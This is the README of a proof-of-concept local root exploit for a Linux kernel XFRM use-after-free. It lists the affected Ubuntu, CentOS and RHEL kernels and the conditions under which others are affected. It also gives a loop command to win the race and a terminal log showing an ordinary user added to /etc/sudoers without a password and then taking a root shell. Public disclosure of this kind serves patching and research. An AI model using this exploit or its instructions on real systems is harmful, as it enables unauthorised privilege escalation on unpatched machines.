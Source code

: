 ## Linux kernel 3.x - 5.x XFRM UAF PoC 

This is a poc for the [kernel
vulnerability](https://duasynt.com/blog/ubuntu-centos-redhat-privesc) that was
reported last year. CentOS was the last distribution to patch the bug in
January 2020.

The technical report is here https://duasynt.com/pub/vnik/01-0311-2018.pdf

Should work on all kernels with the build date before July - November 2019 on
the following distributions:

- Ubuntu 14.04 / 16.04 Server 4.4 LTS kernels
- CentOS 8 4.18 kernels
- Red Hat Enterprise Linux 8 4.18 kernels
- Ubuntu 18.04 Server LTS 4.15 kernels

Other distributions might be affected if:

- unprivileged usernamespaces are allowed
- xfrm support is compiled in or can be autoloaded
- the patch was not backported

It will probably take several tries to win the race (sometimes over 10
attempts), so run it in a loop just like it says:

```
$ while :; do ./lucky0 -q && break; done
```

On success, the current user is added to /etc/sudoers without a password.

```
[vnik@localhost ~]$ cat /etc/redhat-release 
CentOS Linux release 8.1.1911 (Core) 
[vnik@localhost ~]$ uname -a
Linux localhost.localdomain 4.18.0-80.11.2.el8_0.x86_64 #1 SMP Tue Sep 24 11:32:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[vnik@localhost ~]$ while :; do ./lucky0 -q && break; done
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[+] current user vnik was added to /etc/sudoers w/o a password. 'sudo -s' to get a shell
[vnik@localhost ~]$ sudo -s
[root@localhost vnik]# 
```

**On 4.4.x kernels it may trigger a null oops but it's fully recoverable.**
